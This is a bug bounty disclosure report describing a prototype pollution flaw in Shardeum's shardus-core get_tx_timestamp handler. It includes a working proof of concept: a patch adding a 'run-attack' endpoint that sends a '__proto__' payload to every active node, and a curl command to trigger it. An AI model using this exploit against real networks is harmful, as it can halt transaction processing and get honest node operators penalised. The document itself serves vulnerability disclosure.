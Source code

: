 
# Prototype pollution vulnerability in `get_tx_timestamp` handler can stop active node

Submitted on Aug 14th 2024 at 07:04:48 UTC by @periniondon630 for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #34500

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
A prototype pollution vulnerability has been discovered in the get_tx_timestamp handler of the state-manager module. This vulnerability allows an attacker to manipulate the Object prototype, potentially leading to active node shutdown, slashing of the active node for early leave. If exploited in production/mainnet, this flaw could cause significant disruption and compromise the security of the system.

## Vulnerability Details
The vulnerability exists in the following code snippet:
```javascript
generateTimestampReceipt(
    txId: string,
    cycleMarker: string,
    cycleCounter: CycleRecord['counter']
  ): TimestampReceipt {
    const tsReceipt: TimestampReceipt = {
      txId,
      cycleMarker,
      cycleCounter,
      // shardusGetTime() was replaced with shardusGetTime() so we can have a more reliable timestamp consensus
      timestamp: shardusGetTime(),
    }
    const signedTsReceipt = this.crypto.sign(tsReceipt)
    /* prettier-ignore */ this.mainLogger.debug(`Timestamp receipt generated for txId ${txId}: ${utils.stringifyReduce(signedTsReceipt)}`)

    // caching ts receipt for later nodes
    if (!this.txTimestampCache[signedTsReceipt.cycleCounter]) {
      this.txTimestampCache[signedTsReceipt.cycleCounter] = {}
    }

    // cache to txId map
    this.txTimestampCache[signedTsReceipt.cycleCounter][txId] = signedTsReceipt
    if (Context.config.p2p.timestampCacheFix) {
      // eslint-disable-next-line security/detect-object-injection
      this.txTimestampCacheByTxId[txId] = signedTsReceipt
      this.seenTimestampRequests[txId] = true
    }
    /* prettier-ignore */ this.mainLogger.debug(`Timestamp receipt cached for txId ${txId} in cycle ${signedTsReceipt.cycleCounter}: ${utils.stringifyReduce(signedTsReceipt)}`)
    return signedTsReceipt
  }
```
Function is called from get_tx_timestamp handler, all parameters are coming from user controlled input and can be crafted to include special properties such as `__proto__`, allowing an attacker to manipulate the Object prototype. Here is get_tx_timestamp code:

```javascript
this.p2p.registerInternal(
      'get_tx_timestamp',
      async (
        payload: { txId: string; cycleCounter: number; cycleMarker: string },
        respond: (arg0: Shardus.TimestampReceipt) => unknown
      ) => {
        const { txId, cycleCounter, cycleMarker } = payload
        /* eslint-disable security/detect-object-injection */
        if (this.txTimestampCache[cycleCounter] && this.txTimestampCache[cycleCounter][txId]) {
          await respond(this.txTimestampCache[cycleCounter][txId])
        } else {
          const tsReceipt: Shardus.TimestampReceipt = this.generateTimestampReceipt(
            txId,
            cycleMarker,
            cycleCounter
          )
          await respond(tsReceipt)
        }
        /* eslint-enable security/detect-object-injection */
      }
    )
```

The values for parameters should be chosen in a way first condition will go to else case. The following exploit demonstrates this vulnerability:

```javascript
Context.network.registerExternalGet('run-attack', async (req, res) => {
  const payload = { txId: 'debug', receipt2: 'lorem', cycleCounter: '__proto__' }
  for (const node of activeByIdOrder) {
    await this.p2p.tell([node], 'get_tx_timestamp', payload)
  }
})
```

## Impact Details
The potential impacts of this vulnerability are severe and include:

- complete network shutdown, which demonstrates by exploit
- slashing active node by early leave penalty.

## References
- [OWASP: Prototype Pollution](https://owasp.org/www-community/attacks/Prototype_Pollution)
- [CWE-1321: Improperly Controlled Modification of Object Prototype Attributes ('Prototype Pollution')](https://cwe.mitre.org/data/definitions/1321.html)



## Proof of Concept
- Set up and launch a test Shardeum network.
- Apply the following patch to the shardus-core repository to introduce a malicious node:
```javascript
diff --git a/src/state-manager/index.ts b/src/state-manager/index.ts
index f22738cf..a189e16e 100644
--- a/src/state-manager/index.ts
+++ b/src/state-manager/index.ts
@@ -2169,6 +2169,13 @@ class StateManager {
       binaryGetAccountQueueCountHandler.handler
     )

+    Context.network.registerExternalGet('run-attack', async (req, res) => {
+        const payload = { txId: 'debug', receipt2: 'lorem', cycleCounter: '__proto__' }
+        for (const node of activeByIdOrder) {
+            await this.p2p.tell([node], 'get_tx_timestamp', payload)
+        }
+    })
+
     Context.network.registerExternalGet('debug_stats', isDebugModeMiddleware, (_req, res) => {
       const cycle = this.currentCycleShardData.cycleNumber - 1

```
- Build and run your malicious node; it will be capable of attacking and shutting down the network.
- Wait until malicious node will become active.
- Initiate the attack from the malicious node using the following curl command:
```
curl 'http://<MALICIOUS_NODE_IP>:<EXTERNAL_PORT>/run-attack'
```
- The exploit code will iterate through all active nodes in the network and shut them down.
- Wait until all nodes appear red on the monitor webpage, indicating they are offline.
- Check the logs (e.g., fatal logs) to confirm that nothing can be processed.
